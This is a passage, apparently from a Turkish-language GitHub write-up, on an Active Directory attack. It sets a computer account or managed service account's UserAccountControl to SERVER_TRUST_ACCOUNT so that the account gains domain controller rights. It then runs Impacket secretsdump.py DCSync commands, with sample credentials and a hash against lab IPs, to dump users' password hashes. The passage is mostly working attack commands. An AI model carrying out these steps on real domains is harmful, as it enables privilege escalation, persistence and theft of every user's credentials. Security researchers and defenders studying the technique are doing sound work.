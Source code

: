 Sonrasında oluşturulan bu bilgisayar ve MSA UserAccountControl attribute değeri SERVER_TRUST_ACCOUNT yapılabilmektedir. Bu işlemler manuel bir şekilde ServerUntrustAccount.ps1 modülü yada aşağıdaki powershell betikleri ile yapılabilmektedir.

```powershell
# Setting UserAccountControl Attribute to SERVER_TRUST_ACCOUNT 
# 8192 = SERVER_TRUST_ACCOUNT Value in decimal
Set-ADComputer -Identity $ComputerName  -Replace @{"UserAccountControl" = 8192}
```

```powershell
# Setting UserAccountControl Attribute to SERVER_TRUST_ACCOUNT 
# 8192 = SERVER_TRUST_ACCOUNT Value in decimal
Set-ADServiceAccount -Identity $MSAName -Replace @{"UserAccountControl" = 8192}
```

Bilgisayar ve MSA'lar bu işlemlerin ardından PrimaryGroupID değeri 516 olarak Domain Conrtoller yetkilerine sahip olmaktadır. Bundan sonraki adımlarda Impacket/Secretsdump.py ile sistem üzerinde DCSync saldırısı yaparak kullanıcı parola hash özetleri elde edilebilmektedir.

```shell
python3 secretsdump.py windomain.local/forestall\$:Test123.\!@192.168.119.141 -just-dc
```

![Viewing DCSync attack ](image/10.png)

```shell
python3 secretsdump.py windomain.local/iissvcc\$:@192.168.119.165 -hashes :f0d18f87a00e647fa126d4bfbc65b0c2 -just-dc
```

![Viewing DCSync attack ](image/11.png)
